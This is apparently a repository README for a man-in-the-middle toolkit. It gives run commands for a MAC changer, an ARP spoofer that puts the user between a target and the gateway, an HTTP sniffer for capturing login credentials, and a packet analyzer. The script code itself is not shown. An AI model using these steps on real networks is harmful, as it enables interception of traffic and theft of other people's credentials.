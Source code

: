 # mitm-toolkit

**Description** : Man in the Middle Attack Tools

**Requisite** : Make sure you have Python3 and Pip installed in your System.

**How to Run (Linux)** :

1. Install requirements.txt to install necessary packages [**$ python3 -m pip install -r requirements.txt**]  

2. Install colored library [**$ pip3 install colored**]

3. Run mac-changer.py to change your MAC address into any other MAC address [**$ sudo python3 mac-changer.py -i 〈interface〉 -m 〈MAC〉**]

4. Run arp-spoofer.py to spoof your Gateway (router) IP address to become Man in the Middle [**$ sudo python3 arp-spoofer.py -t 〈targetIP〉 -g 〈gatewayIP〉**]

5. Run arp-spoofer.py PLUS http-sniffer.py to capture Login credentials over HTTP web pages [**$ sudo python3 http-sniffer.py -i 〈interface〉**]

6. Run arp-spoofer.py PLUS packet-analyzer.py to capture and analyze Ethernet packets and obtain crucial information [**$ sudo python3 packet-analyzer.py**]

